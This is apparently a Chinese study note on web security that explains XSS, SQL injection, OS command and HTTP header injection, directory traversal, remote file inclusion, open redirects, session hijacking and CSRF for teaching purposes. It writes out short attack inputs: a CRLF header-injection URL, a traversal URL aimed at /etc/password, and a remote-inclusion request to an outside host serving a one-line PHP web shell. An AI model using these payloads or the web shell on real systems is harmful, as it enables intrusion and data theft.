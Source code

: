### web攻击模式
#### 1、 主动攻击
主动攻击是指攻击者通过直接访问Web应用，把攻击代码传入的攻击模式。该攻击针对服务器上的资源，因此前提是要攻击者能够访问服务器上的资源。常见的有sql注入攻击和OS命令注入攻击。
#### 2、 被动攻击
指攻击者设计圈套诱导用户触发攻击动作，从而利用用户的操作已经身份对web服务器发动间接的攻击。

具体步骤：
1、诱导用户触发已经设置好的陷阱，而陷阱启动发送已嵌入攻击代码的HTTP请求。
2、当用户掉入设计的陷阱后，他的浏览器或邮件客户端就会触发这个陷阱。
3、浏览器发送含有攻击代码的HTTP请求到web服务器，运行攻击代码。
4、执行攻击代码后，可能会导致用户重要的Cookie以及其他个人信息重要被窃。最典型的攻击模式就是跨站脚本攻击和跨站点请求伪造。

![image](http://image.zhoufeifan.tech//TuJieHttp/11-1.png)


### 输出转义不完全的攻击方式
- 客户端验证
- 服务端验证
  - 输入值的验证
  - 输出值的转义
  
虽然可以用JavaScript在客户端进行校验，但是客户端的校验不适合作为安全防范的对策，而仅仅是起到提高UI体验的作用。  

Web 应用端输入值验证通常是指检查是否是符合系统业
务逻辑的数值或检查字符编码等预防对策。
从数据库或文件系统、HTML、邮件等输出Web 应用处理的数据之际,针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传人的攻击代码，而给输出对象带来损害。

#### 利用该漏洞的攻击方式

1、 跨站脚本攻击（XSS）
跨站脚本攻击( Cross-Site Scripting,XSS) 是指通过存在安全漏洞的Web 网站注册用户的浏览器内运行非法的HTML 标签或JavaScript进行的一种攻击。动态创建的HTML 部分有可能隐藏着安全漏洞。
影响点。

- 利用虚假输入表单骗取用户的个人信息。
- 利用非法脚本盗取用户的Cookie值，从而伪造身份，执行恶意的操作。
- 显示虚假信息。


2、Sql注入攻击
在web请求中加入攻击代码，导致web应用程序执行那段恶意的sql语句。该攻击直接威胁到数据库，会导致个人信息的泄露、篡改等安全问题。
影响点
- 非法查看或篡改数据库内的数据
- 规避认证（如用户登录验证）
- 执行和数据库服务器业务相关的程序

利用用户的输入且不执行相关的转义操作，直接把输入的值当做查询条件写入sql语句中，就会出现sql注入攻击的安全漏洞。

3、OS命令注入攻击

	通过HTTP请求在web服务器执行非法的操作系统命令。通常就是让web服务器执行非法的shell脚本操作，来达到攻击的目的。

4、http首部注入攻击
	
	攻击者在http响应首部字段内插入换行符，并且添加任意的响应字段或主体，属于被动攻击。

方式：
url后添加换行符（%0D%0A）伪造字段名：字段值 来达到攻击的效果。

访问http://www.exampel.com/?id=2
```
location:http://www.exampel.com/?id=2
```
访问攻击url http://www.exampel.com/?id=2%0D%0ASet-Cookie:+UID=1234
```
location:http://www.exampel.com/?id=2
Set-Cookie: UID=1234
```
当然也可以影响显示的主体
url http://www.exampel.com/?id=2%0D%0ASet-Cookie:+UID=1234%0D%0%0D%0<html>尼玛</html><!--
```
location:http://www.exampel.com/?id=2
Set-Cookie: UID=1234
%0D%0A
<html>尼玛</html><!--(原来的页面就被注释掉了)
```
影响点
	
- 设置任何Cookie信息
- 重定向到任意url
- 显示任意的主体

5、邮件首部注入攻击

6、目录遍历攻击

对服务器上原本不公开的目录进行非法访问，通常的做法就是利用url中的相对路径去恶意访问机密文件。
合法访问的文件
```
http://example.com/read.php?logo=001.png
```
非法访问
```
http://example.com/read.php?logo=../../etc/password
```
7、远程文件包含攻击
远程文件包含漏洞是指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的URL 充当依赖文
件，让脚本读取之后，就可运行任意脚本的一种攻击。

攻击请求
```
http://example.com/read.php?mod=http://nima.com/cmd.php.cmd=ls
```
然后在自己的服务器上准备了一段攻击代码
```
<? system($_GET['cmd]) ?> 
```
这样攻击者就可以在自己的服务器上对目标服务器执行指定的OS命令了。


### 因web设置或者设计上的一些缺陷引发的安全问题

#### 强制浏览
对一些非公开的文件（涉及到权限的），通过非法的手段进行浏览。
造成的影响

- 泄露用户个人重要的信息
- 泄露原本需要访问权限才可以查阅的信息内容
- 泄露未公开的文件


#### 不正确的消息处理

1、Web应用抛出的错误消息
 举例说明：
 登录界面用户输入账号密码没有通过验证时，不需要做在输入账号有误时提示『帐号不存在』，帐号正确而密码错误时提示『密码不正确』等，而是统一提示『密码不正确』。不然会暴露给攻击者暴露太多的信息，增加账号被盗的风险。

2、数据库等系统抛出的错误消息
执行查询时，sql报错，直接将报错信息显示到界面上，这样就可能暴露数据库以及查询脚本的信息。

3、开放重定向

开放重定向是一种对指定的任意URL 作重定向跳转的功能。而于此功能相关联的安全漏洞是指，假如指定的重定向URL到某个具有恶意的Web网站,那么用户就会被诱导至那个Web网站。

```
//正常的重定向
http://taobao.com?redirect=http://www.tmail.com

//攻击者篡改的重定向
http://taobao.com?redirect=http://www.nima.com
```

### 因session管理疏忽引发的安全漏洞
session是用来管理用户的状态的必备功能，如果出现漏洞，就会导致用户的认证状态被窃取。

#### session劫持

攻击者通过某种方式拿到了用户的session ID,并用其伪装成用户，做一些非法的操作从而达到攻击的目的。session ID 中记录客户端的Cookies等信息，服务端会将Session ID 与认证状态进行一对一匹配管理。

攻击者获得session ID 的方式
- 通过非正规的方法推测session ID
- 通过窃听或XSS攻击盗取Session ID
- 通过会话固定攻击强行获取Session ID

攻击案例图：

![image](http://image.zhoufeifan.tech//TuJieHttp/11-2.png)


#### session 固定攻击
强制用户使用攻击者指定的session ID, 属于被动攻击。
案例图：
![image](http://image.zhoufeifan.tech//TuJieHttp/11-3.png)

#### 跨站点请求伪造
跨站点请求伪造( Cross-Site Request Forgeries,CSRF) 攻击是指攻击者通过设置好的陷阱,强制对已完成认证的用户进行非预期的操作，属于被动攻击。

案例图：

![image](http://image.zhoufeifan.tech//TuJieHttp/11-4.png)

当用通过的认证的用户访问含有攻击者部署恶意代码的留言网页后，会自动触发img标签中的http请求，执行评论操作，添加『你好』评论。